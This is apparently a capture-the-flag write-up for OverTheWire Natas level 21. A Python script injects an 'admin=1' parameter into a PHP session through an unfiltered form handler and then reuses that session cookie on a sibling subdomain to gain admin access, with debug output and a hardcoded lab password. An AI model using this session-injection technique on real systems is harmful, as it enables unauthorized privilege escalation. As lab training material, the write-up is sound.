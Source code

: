 The following workflow:

1. Form is embedded in PHP this time. 

2. Form has one input `name=submit, value=Update`. When this happens, the `$_REQUEST` parameters are taken and stored in the session as key-value pairs.

3. Some testing and code reading shows other code isn't of much interest.

We need to inject a new key-value pair `admin=1` into the session, and then colocate to `http://natas21.natas.labs.overthewire.org` with the same session.

```python
def exploit():

    sess = requests.Session()

    auth_username = 'natas21'
    auth_password = 'IFekPyrQXftziDEsUr3x21sYuahypdgJ' 
    _payload = {'align' : 'left', 'fontsize': '100%', 'bgcolor' : 'red', 'admin':'1', 'submit':'Update'}
    
    response = sess.get('http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth(auth_username, auth_password))
    # dissect_response(response) 
    
    response = sess.post('http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth(auth_username, auth_password), data=_payload)
    # dissect_response(response) 

    for cookie in sess.cookies:
        val = cookie.value

    response = sess.get('http://natas21.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth(auth_username, auth_password))
    # dissect_response(response) 

    for cookie in sess.cookies:
        if(cookie.domain == "natas21.natas.labs.overthewire.org"):
            cookie.value = val

    response = sess.get('http://natas21.natas.labs.overthewire.org/index.php?debug', auth=HTTPBasicAuth(auth_username, auth_password))
    dissect_response(response) 
```

The `_payload` has several things, note `"submit": "Update"` is the key. If it is not so, the session value doesn't change. To note this, simply perform `POST` to `...?debug` and observe the session values being printed. Omitting the above key-value pair prints defaults, including them prints dictionary of your choice.

In the above exploit, the first `POST` gives up a `PHPSESSID` in form of a cookie. The session contents are also modified and displayed if `POST` to `...?debug` was made.

```s
[DEBUG] Session contents:<br>Array
(
    [align] => left
    [fontsize] => 100%
    [bgcolor] => red
    [debug] => 
    [admin] => 1
    [submit] => Update
)
```
